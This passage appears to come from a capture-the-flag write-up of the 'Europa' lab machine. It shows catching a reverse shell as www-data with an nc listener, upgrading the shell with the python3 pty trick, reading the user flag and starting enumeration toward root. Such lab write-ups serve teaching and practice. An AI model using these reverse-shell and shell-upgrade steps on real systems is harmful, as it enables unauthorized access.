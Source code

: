 On submitting, I’ve got a shell as www-data:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.22.
Ncat: Connection from 10.10.10.22:59368.
/bin/sh: 0: can't access tty; job control turned off
$ 

```

`python` isn’t on the box, but `python3` is, so the PTY trick works to get a good shell:

```

$ python3 -c 'import pty;pty.spawn("bash")'
www-data@europa:/var/www/admin$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@kali# stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
                                                                         
www-data@europa:/var/www/admin$ 

```

There’s only one user, and `user.txt` is world-readable:

```

www-data@europa:/home/john$ ls -l user.txt 
-r--r--r-- 1 root john 33 Jun 23  2017 user.txt
www-data@europa:/home/john$ cat user.txt
2f8d40cc************************

```

## Shell as root

### Enumeration

Looking at the website, there are four folders in `/var/www`:

```

www-data@europa:/var/www$ ls            
admin  cmd  cronjobs  html

```
